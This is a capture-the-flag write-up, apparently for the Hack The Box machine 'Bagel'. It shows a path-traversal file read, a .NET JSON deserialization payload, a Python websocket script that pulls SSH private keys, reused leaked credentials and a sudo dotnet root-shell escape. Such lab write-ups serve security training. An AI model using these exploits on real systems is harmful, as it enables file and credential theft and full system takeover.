






<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.201 bagel.htb

****nmap scan: TCP/IP****
```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.8 (protocol 2.0)
| ssh-hostkey: 
|   256 6e4e1341f2fed9e0f7275bededcc68c2 (ECDSA)
|_  256 80a7cd10e72fdb958b869b1b20652a98 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:19 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:36 GMT
|     Connection: close
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:48 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:19 GMT
|     Content-Length: 54
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (version).)</h1>
|   SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:49 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Fri, 24 Feb 2023 16:26:50 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|_    <h1>Bad Request (Invalid request line (parts).)</h1>
8000/tcp open  http-alt Werkzeug/2.2.2 Python/3.10.9
|_http-server-header: Werkzeug/2.2.2 Python/3.10.9
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Fri, 24 Feb 2023 16:26:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Fri, 24 Feb 2023 16:26:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 263
|     Location: http://bagel.htb:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://bagel.htb:8000/?page=index.html">http://bagel.htb:8000/?page=index.html</a>. If not, click the link.
|   Socks5: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('
|     ').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: Did not follow redirect to http://bagel.htb:8000/?page=index.html
2 services unrecognized despite returning data.
```

* Port 22 is running usual SSH server and 5000 is unknown right now.
* Port 8000 is running "Werkzeug/2.2.2 Python/3.10.9" server.
* Visiting to `http://10.10.11.201:8000` redirect to `http://bagel.htb:8000/?page=index.html`.

```bash
❯ curl -I http://10.10.11.201:8000

HTTP/1.1 302 FOUND
Server: Werkzeug/2.2.2 Python/3.10.9
Date: Fri, 24 Feb 2023 16:37:01 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 263
Location: http://bagel.htb:8000/?page=index.html
Connection: close
```

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-bagel.htb-8000-.png">
    
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-bagel.htb-8000-.png"><i>Click for full image</i></a></div>
</div>

<!--  -->

* Add `bagel.htb` in /etc/hosts file.
* Run vHost scanning with ffuf in background.

# Foothold

## LFI

There is a LFI in `http://bagel.htb:8000/?page=index.html` "page" parameter.

```bash
curl -i -s 'http://bagel.htb:8000/?page=../../../../etc/passwd'
```



And got application source

```bash
curl -i -s 'http://bagel.htb:8000/?page=../app.py'
```




```py
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

@app.route('/orders')
def order(): # don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")

if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```

* Port 5000 is running websocket.
* There is a comment talking about some `.dll` file.

Enumerating `/proc` directory for running processes and find `.dll` file path -> `page=../../../../proc/§0§/cmdline`



```bash
❯ curl 'http://bagel.htb:8000/?page=../../../../proc/927/cmdline' -o -
dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll
❯ curl -s "http://bagel.htb:8000/?page=../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" -o bagel.dll
❯ file bagel.dll
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

## Reversing DLL

de-compiling `bagel.dll` using online tool -> https://www.decompiler.com/
* There is also a tool for windows -> https://github.com/dnSpy/dnSpy 

And find username and password in `DB.cs` file in de-compiled source: `dev:k8wdAYYKyhnjg3K"`



There is 6 files in the "bagel_server".
```bash
bagel_server
├── Bagel.cs
├── Base.cs
├── DB.cs
├── File.cs
├── Handler.cs
└── Orders.cs

1 directory, 6 files
```

<!-- From what i understand. -->

1. `Bagel.cs`: This file contains the main entry point of the application and sets up a WebSocket server to handle incoming requests from clients. It also defines a method `MessageReceived` to handle incoming messages and send a response back to the client.
2. `Base.cs`: This file defines a base class Base which extends another class Orders. It contains some properties for storing user information such as `UserId` and `Session`, as well as a property `Time` to get the current time.
3. `DB.cs`: This file defines a class `DB` with a method `DB_connection` which connects to a database and inserts an order record into it.
4. `File.cs`: This file defines a class File with a method `ReadFile` which reads the contents of a file from disk, and a method `WriteFile` which writes a string to a file on disk.
5. `Handler.cs`: This file defines a class `Handler` which is **used to serialize and deserialize JSON messages between the client and server**.
6. `Orders.cs` - This file defines a class called Orders which has three public properties: `RemoveOrder`, `WriteOrder`, and `ReadOrder`.

`WriteOrder` is of type `string` and uses a private field called `order_info` to store the value that is being set. The value is then assigned to a private instance of the `File` class called `file`. When get is called, it returns the `WriteFile` property of the `file` instance.

`ReadOrder` is also of type `string`. It uses a private field called `order_filename` to store the value that is being set. The value is then manipulated by replacing any forward slashes or double dots in the value. The modified value is then assigned to the `ReadFile` property of the `file` instance. When `get` is called, it returns the `ReadFile` property of the `file` instance.

`RemoveOrder` is of type `object`, which is taking user input and constructing an object.

In summary, this code provides a basic interface for reading, writing, and removing orders by interacting with the `file` instance of the `File` class. However, the  `RemoveOrder` property is blank object.

`WriteOrder` and `ReadOrder`  are not vulnerable to object deserialization attacks because they do not accept serialized objects as input, but instead receive simple string values for the file content and file path.

### DotNET Object Deserialization

As name suggest "object deserialization', the type of the property being deserialized matters. When deserializing a JSON string into a C# object, the type of each property is inferred based on the JSON data provided. For example, if a property's value is a string in the JSON data, it will be deserialized as a C# string type.

The `ReadOrder` and `WriteOrder` properties are defined as strings because they represent file path and file content, which are typically represented as strings. The `RemoveOrder` property is defined as an object. When it comes to object deserialization, this type of the deserialized property can impact the security of the application. Specifically, if an attacker is able to manipulate this type of the deserialized property (by modifying the JSON data, for example), they may be able to execute arbitrary code on the server. This is because the deserializer may construct an instance of a type that is different from what the developer intended, leading to unexpected behavior.

So, with the `RemoveOrder` property we can construct a object to call `ReadFile` or `WriteFile` methods from `File` class.

```json
{
   "RemoveOrder": {
        "$type": "bagel_server.File, bagel",
        "ReadFile": "../../../etc/passwd"
    }
}
```

In this example, we are telling the deserializer to construct an object of type "`File`" in the "`bagel`" namespace. We then pass a parameter to the "`ReadFile`" property, which will read the contents of the "`/etc/passwd`" file on the server.

**references**

* https://book.hacktricks.xyz/pentesting-web/deserialization#.net
* https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
* https://www.youtube.com/watch?v=oUAeWhW5b8c


```py
import websockets
import asyncio
import json
import base64
import sys

websocket_url = "ws://10.10.11.201:5000/"

async def lets_talk(input_data):
    async with websockets.connect(websocket_url) as ws:

        await ws.send(json.dumps(input_data))
        recv_msg = await ws.recv()
        # print(f"> {recv_msg}")

        j_data = json.loads(recv_msg)
        if "RemoveOrder" in j_data and "ReadFile" in j_data["RemoveOrder"]:
            data = j_data["RemoveOrder"]["ReadFile"]
            print(data)


if __name__ == "__main__":
    try:
        read_order = {"ReadOrder": "orders.txt"}
        write_order = {"WriteOrder": "New Order"}
        remove_order = {"RemoveOrder": {"$type": "bagel_server.File, bagel","ReadFile": f"../../..{sys.argv[1]}"}}  # /home/phil/.ssh/id_rsa
        asyncio.get_event_loop().run_until_complete(lets_talk(input_data=remove_order))
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
    except IndexError as e:
        print("Usage: script.py <filename>")
        exit(e)
    except websockets.exceptions.ConnectionClosed as e:
        print(e)
```

With that we can read content of user "phil" private ssh key and get shell as user "phil".

And the WebSocket server `bangel.dll` is running under the user account "phil," which is why we were unable to read the id_rsa file via LFI, but we were able to access it via the WebSocket.

# Privesc

## dotnet with sudo

2 users on the box.
```bash
[phil@bagel tmp]$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Creds found form the dll binary, reused for user "developer" in `su`

And user "developer" can run `/usr/bin/dotnet` with sudo
```bash
[phil@bagel tmp]$ su developer
Password: 
[developer@bagel tmp]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
    KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

Exploit -> https://gtfobins.github.io/gtfobins/dotnet/#sudo

```bash
sudo /usr/bin/dotnet fsi
System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
```


